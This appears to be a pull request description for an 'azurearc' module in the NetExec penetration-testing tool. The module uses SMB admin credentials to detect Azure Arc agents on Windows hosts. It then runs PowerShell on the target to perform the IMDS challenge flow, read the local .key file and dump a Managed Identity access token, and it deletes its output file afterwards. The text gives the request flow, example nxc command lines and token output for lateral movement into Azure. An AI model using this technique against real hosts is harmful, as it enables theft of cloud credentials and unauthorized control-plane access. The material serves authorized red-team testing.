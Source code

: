 New module, **`azurearc`**, which detects whether a Windows host is Azure Arc–enabled and, if so, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented 401 challenge → `.key` file → second request flow.

## Behavior:
Presence check via SMB listing of:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval executed locally on target with PowerShell:
1. GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read .key contents (local admin privileges required)
2. second GET with Authorization: Basic <key>.
Write JSON to outfile, fetch via SMB, delete outfile.


- **Protocols:** SMB (requires administrative privileges)
- **Capabilities:**
  - **CHECK mode:** enumerate presence of the Azure Connected Machine Agent (Arc) by listing well-known install paths
  - **Default mode:** perform the IMDS challenge/response locally on the target and return the JSON containing the `access_token`
- **Use case:** Quickly map Arc deployment across estate and retrieve a cloud-scoped token for Azure control-plane actions during engagements.

---

## Screenshot
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

**Presence check only (Arc installed)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed

**Presence check only (Arc not installed)**
nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found

**Dump token (success)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
"access_token":"eyJhbGciOi...<redacted>...",
"expires_on":"1730812345",
"token_type":"Bearer",
"resource":"https://management.azure.com
"
}

# Setup guide for the review
git clone https://github.com/Pennyw0rth/NetExec.git
* Add the module file at:
nxc/modules/azurearc.py


# Run from source against a lab target
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
